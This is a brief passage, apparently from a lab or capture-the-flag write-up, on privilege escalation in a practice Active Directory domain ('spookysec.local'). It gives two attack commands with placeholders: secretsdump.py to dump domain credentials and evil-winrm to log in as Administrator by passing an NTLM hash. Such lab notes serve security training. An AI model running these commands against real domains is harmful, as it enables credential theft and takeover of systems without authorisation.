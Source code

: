 # 🚪 Privilege Escalation

## Elevating Privileges within the Domain

### Dumping Credentials

#### Secretsdump.py

```
sudo secretsdump.py -dc-ip <domain IP address> spookysec.local/<account>:<password>@<domain IP address>
```



### Pass The Hash Attack

#### Evil-Winrm

```
sudo evil-winrm -i <domain IP> -u Administrator -H <ntlm hash>
```

